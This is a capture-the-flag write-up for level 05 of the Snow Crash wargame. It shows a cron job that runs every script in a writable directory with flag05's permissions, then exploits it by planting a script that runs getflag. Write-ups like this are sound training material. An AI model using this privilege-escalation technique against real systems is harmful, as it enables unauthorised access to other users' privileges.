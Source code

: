 # Snow Crash - Level 05

## Finding the Cronjob

Upon logging in, we receive an email. The emails are stored in `/var/mail`, where we find a file named `level05`. Inspecting it with `cat` reveals the following scheduled task:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This indicates a cron job that executes `/usr/sbin/openarenaserver` every 2 minutes with `flag05`'s permissions.

## Understanding the Execution Flow

Inspecting the contents of `/usr/sbin/openarenaserver`, we find the following script:

```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

This script executes any file inside `/opt/openarenaserver/` and then deletes it.

## Exploiting the Cronjob

Since we can write files to `/opt/openarenaserver/`, we can create a script that runs `getflag`.

### Steps:

1. Create a malicious script:

   ```bash
   echo "/bin/getflag > /tmp/my_flag" > /opt/openarenaserver/my_script
   chmod +x /opt/openarenaserver/my_script
   ```

2. Wait for the cron job to execute (approximately 2 minutes).

3. Retrieve the flag:

   ```bash
   cat /tmp/my_flag
   ```

The flag is now stored in `/tmp/my_flag`, as the script was executed with `flag05`'s permissions.

